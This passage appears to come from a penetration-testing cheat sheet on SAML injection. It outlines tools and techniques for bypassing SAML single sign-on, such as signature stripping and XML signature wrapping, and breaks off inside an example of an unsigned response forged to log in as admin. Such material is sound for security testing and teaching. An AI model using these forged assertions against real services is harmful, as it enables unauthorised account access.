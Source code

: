 # SAML Injection

> SAML (Security Assertion Markup Language) is an open standard for exchanging authentication and authorization data between parties, in particular, between an identity provider and a service provider. While SAML is widely used to facilitate single sign-on (SSO) and other federated authentication scenarios, improper implementation or misconfiguration can expose systems to various vulnerabilities.


## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [Invalid Signature](#invalid-signature)
    * [Signature Stripping](#signature-stripping)
    * [XML Signature Wrapping Attacks](#xml-signature-wrapping-attacks)
    * [XML Comment Handling](#xml-comment-handling)
    * [XML External Entity](#xml-external-entity)
    * [Extensible Stylesheet Language Transformation](#extensible-stylesheet-language-transformation)
* [References](#references)


## Tools

- [CompassSecurity/SAMLRaider](https://github.com/SAMLRaider/SAMLRaider) - SAML2 Burp Extension.
- [ZAP Addon/SAML Support](https://www.zaproxy.org/docs/desktop/addons/saml-support/) - Allows to detect, show, edit, and fuzz SAML requests.


## Methodology

A SAML Response should contain the `<samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"`.


### Invalid Signature

Signatures which are not signed by a real CA are prone to cloning. Ensure the signature is signed by a real CA. If the certificate is self-signed, you may be able to clone the certificate or create your own self-signed certificate to replace it.


### Signature Stripping

> [...]accepting unsigned SAML assertions is accepting a username without checking the password - @ilektrojohn

The goal is to forge a well formed SAML Assertion without signing it. For some default configurations if the signature section is omitted from a SAML response, then no signature verification is performed.

Example of SAML assertion where `NameID=admin` without signature.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<saml2p:Response xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol" Destination="http://localhost:7001/saml2/sp/acs/post" ID="id39453084082248801717742013" IssueInstant="2018-04-22T10:28:53.593Z" Version="2.0">
    <saml2:Issuer xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion" Format="urn:oasis:names:tc:SAML:2.0:nameidformat:entity">REDACTED</saml2:Issuer>
    <saml2p:Status xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol">
        <saml2p:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success" />
    </saml2p:Status>
    <saml2:Assertion xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion" ID="id3945308408248426654986295" IssueInstant="2018-04-22T10:28:53.593Z" Version="2.0">
        <saml2:Issuer Format="urn:oasis:names:tc:SAML:2.0:nameid-format:entity" xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">REDACTED</saml2:Issuer>
```